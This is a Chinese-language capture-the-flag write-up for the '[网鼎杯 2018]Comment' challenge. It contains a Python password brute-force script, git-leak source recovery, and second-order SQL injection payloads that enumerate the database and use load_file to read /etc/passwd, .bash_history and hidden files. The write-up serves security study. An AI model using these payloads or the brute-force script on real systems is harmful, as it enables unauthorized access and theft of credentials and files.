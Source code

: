 # [网鼎杯 2018]Comment

## 知识点

`SQL注入`

`二次注入 `

`git泄露`

`.DS_Store找flag`

## 解题

首页给了一个留言版发帖，但是点击发帖输入提交后发现要求登录

![](./img/[网鼎杯 2018]Comment-1.png)

提示账号为`zhangwei`，密码为`zhangwei***`，先尝试`纯数字`

```python
import requests
from string import digits, ascii_letters
import itertools
import time


url = "http://ede22497-5485-431d-b0bb-d6bfabe76903.node5.buuoj.cn:81/login.php"

res = list(itertools.product(digits, repeat=3))

dictionary = [''.join(v) for v in res]


with open('./res.txt', 'w') as f:
    for passwd in dictionary:
        data = {
            "username": 'zhangwei',
            'password': f'zhangwei{passwd}'
        }
        resp = requests.post(url, data=data)
        print(f"username:zhangwei\tpassword:zhangwei{passwd}\tresp_code:{resp.status_code}\tresp_length:{len(resp.text)}")
        f.write(f"username:zhangwei\tpassword:zhangwei{passwd}\tresp_code:{resp.status_code}\tresp_length:{len(resp.text)}\n")
        time.sleep(0.15)
```

最后发现`zhangwei666`的响应包长度不同，尝试登录，发现成功登录，且在扫描目录的过程中发现了`git泄露`，`githack`下载后发现给的代码无法利用

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    break;
case 'comment':
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

似乎内容被删除了，看一下历史版本信息

```bash
git log --all
```

![](./img/[网鼎杯 2018]Comment-22.png)

发现了三个版本，逐个回退，在`e5b2a2443c2b6d395d06960123142bc91123148c`版本发现源码

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

我们可以在`write`时写入`payload`，在`comment`时进行二次注入，最终结果会显示在`comment.php`，第一步尝试``

```sql
title=test&category=test',content=database(),/*&content=test
```

发现能正常回显

![](./img/[网鼎杯 2018]Comment-4.png)

因为`sql`语句是多行语句，所以用`*/`进行多行注释

![](./img/[网鼎杯 2018]Comment-5.png)



![](./img/[网鼎杯 2018]Comment-3.png)

发现能正常查询，注`数据库，表等等`

```sql
(select(group_concat(table_schema))from(information_schema.schemata))

(select(group_concat(table_name))from(information_schema.tables)where((table_schema)=database()))
```

后面发现`flag`不在数据库中，尝试读`用户创建容器时执行的命令`，首先找一下`用户家目录`

```sql
(select(load_file("/etc/passwd")))
```

![](./img/[网鼎杯 2018]Comment-6.png)

发现家目录在`/home/www`，尝试读取`.bash_history`

```sql
(select(load_file("/home/www/.bash_history")))
```

![](./img/[网鼎杯 2018]Comment-7.png)

发现`.DS_Store`文件还在`/tmp/html`，`.DS_Store`文件可以看到目录文件，尝试读取

```sql
(select(load_file("/tmp/html/.DS_Store")))
```

![](./img/[网鼎杯 2018]Comment-8.png)

这样读有点问题，尝试使用`16`进制输出

```sql
(select(hex(load_file("/tmp/html/.DS_Store"))))
```

![](./img/[网鼎杯 2018]Comment-9.png)

`hex`解码

![](./img/[网鼎杯 2018]Comment-10.png)

读取文件

```sql
(select(hex(load_file("/tmp/html/flag_8946e1ff1ee3e40f.php"))))
```

![](./img/[网鼎杯 2018]Comment-11.png)

![](./img/[网鼎杯 2018]Comment-12.png)

[参考文章](https://www.cnblogs.com/Article-kelp/p/16077919.html)